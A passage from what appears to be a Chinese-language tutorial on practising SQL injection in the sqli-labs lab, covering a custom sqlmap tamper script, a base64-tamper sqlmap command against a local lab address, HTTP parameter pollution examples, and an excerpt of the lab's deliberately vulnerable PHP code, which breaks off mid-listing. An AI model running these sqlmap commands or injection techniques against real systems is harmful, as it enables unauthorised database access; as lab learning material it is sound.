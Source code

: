 

### 自定义tamper脚本

为了更好的观测sqlmap payload的执行情况，这里使用自定义脚本输出所测试的payload：

```python
!/usr/bin/env python

import re

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.HIGHEST

def dependencies():
    pass

def tamper(payload, **kwargs):

    print "payload ====> %s" % payload
    return payload
```



对payload base64编码：

```
sqlmap -u http://192.168.0.150:8080/Less-21/ --batch --cookie "uname=*" --tamper=base64encode.py
```



### 二次注入

sqlilab-less24

### 参数污染

sqlilab-less29；

参数污染，正常情况下前端传递的参数中相同的参数名应该是只有一个，但是非正常情况下就会有多个，如：

```
ip.com/?id=1    # 正常情况
ip.com/?id=1&id=2&id=3     # 非正常情况，且最后一个有效，即id=3
```

```php
<?php
include("../sql-connections/sql-connect.php");
error_reporting(0);

// take the variables 
if(isset($_GET['id']))
{
	$qs = $_SERVER['QUERY_STRING'];  # 获取查询的所有参数，如：?id=1&u=admin，此时获取的参数为id=1&un=admin
	$hint=$qs;
	$id1=java_implimentation($qs);
	$id=$_GET['id'];
	//echo $id1;
	whitelist($id1);
	
	//logging the connection parameters to a file for analysis.
	$fp=fopen('result.txt','a');
	fwrite($fp,'ID:'.$id."\n");
	fclose($fp);
	
	
```